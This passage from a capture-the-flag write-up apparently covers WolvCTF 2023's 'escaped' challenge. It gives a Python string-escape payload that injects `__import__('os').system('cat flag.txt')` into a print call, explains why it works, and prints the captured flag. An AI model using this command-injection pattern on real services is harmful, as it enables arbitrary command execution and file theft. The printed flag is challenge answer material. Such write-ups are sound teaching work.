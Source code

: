 ![escaped](/assets/img/ctf_img/wolv23/wolv_escaped2.png)

The payload to get the flag is `"\x22,__import__('os').system('cat flag.txt'),\x22"`. Here `\x22` is interpreted as `"` this will become `print("",__import__('os').system('cat flag.txt'),""`. Therefore it will prints the flag.

![escaped](/assets/img/ctf_img/wolv23/wolv_escaped3.png)

> `Flag : wctf{m30w_uwu_:3}`

# elytra

![elytra](/assets/img/ctf_img/wolv23/wolv_elytra.png)
